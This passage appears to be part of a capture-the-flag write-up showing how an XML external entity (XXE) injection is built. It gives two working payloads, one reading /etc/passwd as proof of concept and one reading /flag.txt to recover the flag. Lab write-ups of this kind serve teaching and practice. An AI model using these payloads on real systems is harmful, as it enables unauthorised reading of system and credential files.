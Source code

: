 	![11xxe1-2](imgs/11xxe1-2.png)

	- Update the payload to be `<?xml version="1.0"?><!DOCTYPE data [<!ENTITY read SYSTEM 'file:///etc/passwd'>]><data><X-Token>&read;</X-Token></data>`
	- Now, we have PoC of XXE
	![11xxe1-3](imgs/11xxe1-3.png)

- Update the XXE payload to be `<?xml version="1.0"?><!DOCTYPE data [<!ENTITY read SYSTEM 'file:///flag.txt'>]><data><X-Token>&read;</X-Token></data>`
	- Get the flag: `{9f18bd8b9acaada53c4c643744401ea8}`